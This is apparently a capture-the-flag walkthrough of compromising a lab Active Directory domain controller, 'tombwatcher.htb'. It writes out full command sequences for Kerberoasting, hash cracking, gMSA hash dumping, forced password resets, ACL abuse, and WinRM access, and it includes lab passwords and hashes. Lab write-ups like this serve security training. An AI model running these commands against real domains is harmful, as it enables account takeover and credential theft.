## Testing
IP:

```IP
10.129.51.60
```

Given credentials:

```User
henry
```
```Password
H3nry_987TGV!
```
---

Port scan

```
nmap -p- -n -Pn -vv --min-rate=5000 10.129.51.60 -oG network/nmap_ports.txt
```




- DNS, HTTP, Kerberos, RPC, LDAP, SMB, WinRM

- Active Directory, Domain Controller

Service scan

```
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49675,49676,49681,49703,49716 -sCV --min-rate=5000 10.129.51.60 -oN network/nmap_service.txt
```




- IIS web server

- Kerberos time: `2026-08-20 15:34:53`. Important to sync for kerberos auth

- Domain: `tombwatcher.htb`

- Hostname: `DC01`




- Off sync with DC

- SMB signing enabled, no SMB relay

Add IP - hostname and domain to /etc/hosts



Validate credentials

smb

```
nxc smb dc01 -u 'henry' -p 'H3nry_987TGV!'
```



- OS: `Windows 10 / Server 2019 Build 17763`

- Credentials valid via SMB

ldap

```
nxc ldap dc01 -u 'henry' -p 'H3nry_987TGV!'
```



- No signing, no channel binding. Possible LDAP relay
  
- Credentials valid via LDAP

Same validation for winrm, credentials not valid on WinRM.

Enumerating shares

```
nxc smb dc01 -u 'henry' -p 'H3nry_987TGV!' --shares
```



- Read to IPC, NETLOGON and SYSVOL

Checking SYSVOL GGP with `-M gpp_password`. No result

Users

```
nxc ldap dc01 -u 'henry' -p 'H3nry_987TGV!' --users | tee intelligence/users.txt
```


- Found 3 new user accounts. `alfred`, `sam` and `john`

Enumerating with SID lookup

```
impacket-lookupsid 'henry:H3nry_987TGV!'@dc01
```



- Domain SID: `S-1-5-21-1392491010-1358638721-2126982587`
  
- Interesting `ansible_dev$` machine account and `Infrastructure` Group

Enumerating password policy

```
nxc smb dc01 -u 'henry' -p 'H3nry_987TGV!' --pass-pol
```



- Secure password policy not enforeced. No minimun password length and no Lockout threshold. Flexible password brute forcing and password spray

Check Accounts with NO Pre-Auth set (for ASREP roasting)

```
impacket-GetNPUsers -usersfile intelligence/users.txt tombwatcher.htb/henry:H3nry_987TGV! -dc-ip dc01
```

- No result

No service accounts discovered but check anyways for kerberoastable accounts

```
impacket-GetUserSPNs -request tombwatcher.htb/henry:H3nry_987TGV! -dc-ip dc01
```

- No result as expected

Enumerating Domain with BloodHound

```
sudo bloodhound-python -u 'henry' -p 'H3nry_987TGV!' -ns 10.129.51.60 -d tombwatcher.htb -c all
```




Checking HTTP while Bloodhound CE loads



- Seems is just the default IIS static page

Uploading json files

Searching for henry (controlled account) and adding to Owned Objects

Running Analyze, refresh data

Querying: "`Shortest Path From Owned Objects`"

- With this query BloodHound is already identifying the whole chain from the Owned User Account `henry` to foothold - `john` with Remote Management Privilege.



1. WriteSPN to `Alfred` User - Targeted Kerberoast - Crack hash
2. AddSelf to `Infrastructure` Group - Add `alfred` to `Infrastructure`
3. ReadGMSAPassword to `ansible_dev$` - Read computer account pasword
4. ForceChangePassword to `sam` User - Change password
5. WriteOwner over `john` User -  Grant Ownership & Full Control > Change password / Set SPN
6. `john` User is MemberOf Remote Management Users - Connect with WinRM

#### 1. WriteSPN to `Alfred` User  -  Targeted Kerberoast - Crack hash



Sync with DC to use kerberos

```
sudo ntpdate 10.129.51.60
```

Set SPN on alfred and kerberoast/get TGT - Hash (SPN is autoremoved afterwards by the tool)

```
./targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' -f hashcat --dc-ip 10.129.51.60
```



- Obtained alfred Hash

Cracking (mode 13100)

```
hashcat -m 13100 tombwatcher.htb.alfred.hash rockyou.txt
```



- Cracked: `basketball`

New set of credentials:

```User
Alfred
```
```Password
basketball
```

Validating

```
nxc smb dc01 -u 'alfred' -p 'basketball'
```



#### 2. AddSelf to `Infrastructure` Group  -  Add `alfred` to `Infrastructure`



Adding alfred to infrastructure

```
net rpc group addmem "infrastructure" "alfred" -U "tombwatcher.htb"/"alfred"%"basketball" -S "dc01"
```

`Could not add alfred to infrastructure: NT_STATUS_ACCESS_DENIED`

Using ldap shell

```
ldap_shell tombwatcher.htb/alfred:basketball -dc-ip dc01
```

```
add_user_to_group Alfred Infrastructure
```



Check

```
get_group_users Infrastructure
```




#### 3. ReadGMSAPassword to `ansible_dev$` - Read computer account pasword



Dump gMSA

```
./gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
```



- Retrieved `ansible_dev$` computer account NT Hash

```
ansible_dev$:::cb3161cb2c9d84b58ba3014f55040d75
ansible_dev$:aes256-cts-hmac-sha1-96:b044a33a975eb2fcd58b84b7b945b28356c8473343593b98baeebb16e42829c4
ansible_dev$:aes128-cts-hmac-sha1-96:3a5c2db5ab790f12d0101daf6ee07534
```

New set of creds:

```User
ansible_dev$
```
```NT
cb3161cb2c9d84b58ba3014f55040d75
```

#### 4. ForceChangePassword to `sam` User - Change password



Change sam user password

```
./pth-net rpc password "sam" "P@ssword1234" -U "tombwatcher.htb"/"ansible_dev$"%"ffffffffffffffffffffffffffffffff":"cb3161cb2c9d84b58ba3014f55040d75" -S "dc01"
```

`bin/net: error while loading shared libraries: libreadline.so.6: cannot open shared object file: No such file or directory`

- Trying to solve it since it seems no other tool exists for this doing PTH
- https://knowledge.informatica.com/s/article/000240205?language=en_US

```
ldconfig -p | grep readline
```
```
sudo ln -s /lib64/libreadline.so.8 /lib64/libreadline.so.6
```

- Still not working

- After some research found that BloodyAD is also capable and more modern alternative.

Trying with BloodyAD

```
./bloodyAD.py --host dc01 -d tombwatcher.htb -u 'ansible_dev$' -p :cb3161cb2c9d84b58ba3014f55040d75 set password sam 'P@ss1234'
```

`[+] Password changed successfully!`

- It works. BloodyAD recommended over the old pth-net

Validating

```
nxc smb dc01 -u 'sam' -p 'P@ss1234'
```


#### 5. WriteOwner over `john` User -  Grant Ownership & Full Control > Change password / Set SPN



Making controlled account sam owner of john

```
impacket-owneredit -action write -new-owner 'sam' -target-dn 'CN=john,CN=Users,DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'sam':'P@ss1234' -dc-ip dc01
```



Getting full control over john

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target-dn 'CN=john,CN=Users,DC=tombwatcher,DC=htb' 'tombwatcher.htb'/'sam':'P@ss1234' -dc-ip dc01
```



Changing john password

```
./bloodyAD.py --host dc01 -d tombwatcher.htb -u 'sam' -p 'P@ss1234' set password john 'P@ss12345$'
```

Validating WinRM access

```
nxc winrm dc01 -u 'john' -p 'P@ss12345$'
```



----

Access WinRM

```
evil-winrm -i dc01 -u john -p 'P@ss12345$'
```

```
whoami; ipconfig; type c:\users\john\desktop\user.txt
```



----

Privilege Escalation

```
whoami /priv; whoami /groups
```



- No privilege or group stands out for me

Make directory www/

Copy winpeas.ps1 to www/

Run winrm connection on www/

```Powershell
cd \programdata
```

```Powershell
upload winPEAS.ps1
```



Run it

```Poweshell
.\winPEAS.ps1
```

- Nothing that im familiar with stands out

----

Referenced:
IppSec video: https://www.youtube.com/watch?v=um8b-TN76bY - from min `19:30`

Get the precompiled binary: [rusthound-ce-Linux-gnu-x86_64.tar.gz](https://github.com/g0h4n/RustHound-CE/releases/download/v2.5.2/rusthound-ce-Linux-gnu-x86_64.tar.gz)
Extract and run

```
rusthound-ce -d tombwatcher.htb -u sam@tombwatcher.htb -p 'P@ss1234' -f dc01 -z
```

`RustHound-CE Enumeration Completed at 22:50:03 on 08/20/26! Happy Graphing!`


Upload the .zip and analyze

Query: "`Enrollment rights on published certificate templates`"


- It seems that if the name is not present and showing SID, means that AD cant resolve the Identity and the object may have been deleted.

Check certificates:

```
certipy find -u john -p 'P@ss12345$' -target dc01
```

- Output saved to `20260820230619_Certipy.txt`



- Here can also see the SID: `S-1-5-21-1392491010-1358638721-2126982587-1111`

Discover more information about this SID
Back to WinRM

```Powershell
Get-ADObject -Filter 'objectsid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties *
```

- No output

Including the flag "`-IncludeDeletedObjects`"

```Powershell
Get-ADObject -Filter 'objectsid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects
```



Name: `cert_admin`
OU: `ADCS`
GUID: `938182c3-bf0b-410a-9aaa-45c8e1a02ebf`

- When running BH, noticed that john has GenericAll over the `ADCS` OU, but got no attention since it seemed like a dead end. Now is interesting after discovering the `cert_admin` account belongs to `ADCS` OU

